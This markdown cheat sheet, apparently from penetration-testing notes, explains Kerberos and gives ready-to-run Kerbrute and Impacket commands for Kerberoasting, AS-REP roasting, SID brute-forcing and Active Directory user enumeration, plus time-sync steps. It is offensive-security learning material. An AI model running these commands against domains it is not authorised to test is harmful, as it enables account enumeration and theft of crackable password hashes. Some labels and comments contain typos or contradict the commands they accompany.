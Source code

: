 # Kerberoas

---
# Navigation
- **[[#Definition]]**
- **[[#Kerberoasting]]**
	- [[#Kerbrute]]
	- [[#Kerberoasting]] 
- **[[#Synchronizing time is important]]**
- **[[#Further reading]]**

---
# Definition
## What's Kerberoas
Kerberos is **an authentication protocol that works on the basis of tickets** that allows clients to connect to services over an insecure network and still allow clients to prove their identity in a secure manner.
## How does Kerberoas work?
1. Login.
2. Request for Ticket Granting Ticket – TGT, Client to Server.
3. Server checks if the user exists.
4. Server sends TGT back to the client.
5. Enter your password.
6. Client obtains the TGS Session Key.
7. Client requests server to access a service.
8. Server verifies if service exist.
9. Server verifies request.
10. Server generates service session key.
11. Client receives service session key.
12. Client contacts service.
13. Service receives the request.
14. Service verifies request.
15. Service confirms identity to the client.
16. Client receives confirmation.
17. Client communicates with the service.
> Detailed explaination here: https://www.vanimpe.eu/2017/05/26/kerberos-made-easy/

# Kerberoasting
The goal is to get a **TGS** and decrypt server's account hash.
> Pre-requesties: Have a username or a list of users.

## Kerbrute
 For user enumeration,Password spraying and more
 ```bash
 go get github.com/ropnop/kerbrute
```
## Impacket tools
 **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 ```bash
 impacket-GetNPUsers <DOMAIN>/ -dc-ip 10.10.10.240 -no-pass -usersfile usernames.txt -format john
 ```
  **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
  ```bash
  impacket-lookupsid <DOAMIN>/ -target-ip <IP>
  ```
  **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -usersfile usernames.txt -no-pass -request
 ```
  **impacket-GetADUsers**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes.*If no entries are returned that means users don’t have email addresses specified so you can use **-all** option*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP> -all
 ```
 # Synchronizing time is important
```bash
#Disable time sync on VM
sudo apt install ntpdate
sudo ntpdate <RemoteMachine-IP>

#Second method
sudo apt install rdate
sudo rdate -n <DC>

#IF the above didn't work
sudo apt-get install chrony
sudo timedatectl set-ntp true 
sudo ntpdate <machine IP>
```
 # Further reading
 - Tutorial -> [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- Cheatsheet -> [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- Explained -> [**Kerberoasting**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)


